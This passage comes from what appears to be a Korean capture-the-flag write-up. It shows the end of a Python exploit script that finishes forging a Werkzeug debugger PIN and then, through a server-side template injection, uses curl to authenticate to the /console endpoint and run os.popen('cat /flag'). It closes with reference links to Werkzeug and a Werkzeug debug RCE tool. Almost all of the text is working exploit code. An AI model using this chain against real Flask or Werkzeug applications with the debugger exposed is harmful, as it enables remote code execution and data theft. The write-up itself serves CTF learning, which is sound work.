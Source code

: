 ```

    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = "-".join(
                    num[x : x + group_size].rjust(group_size, "0")
                    for x in range(0, len(num), group_size)
                )
                break
        else:
            rv = num
    return rv

def pinauth():
    res = ssti(f"curl%20-G%20-i%20localhost:8000/console%20--data-urlencode%20__debugger__=yes%20--data-urlencode%20s={secret()}%20--data-urlencode%20frm=0%20--data-urlencode%20cmd=pinauth%20--data-urlencode%20pin={generate_pin()}")
    return re.findall(r"__wzd\S*[^\W]",res)[0]

def get_flag():
    print("p : " + pinauth())
    print("s : " + secret())
    res = ssti(f"curl%20-G%20-b%20'{pinauth()}'%20-i%20localhost:8000/console%20--data-urlencode%20__debugger__=yes%20--data-urlencode%20s={secret()}%20--data-urlencode%20frm=0%20--data-urlencode%20'''cmd=__import__(%5C%22os%5C%22).popen(%5C%22cat%20%2Fflag%5C%22).read();'''")
    return re.findall(r"BISC\{.*?\}",res)[0]

print("FLAG : " + get_flag())
```

# 5. 참고

- https://github.com/pallets/werkzeug/blob/main/src/werkzeug/debug/__init__.py

- https://github.com/its-arun/Werkzeug-Debug-RCE/blob/master/werkzeug.py


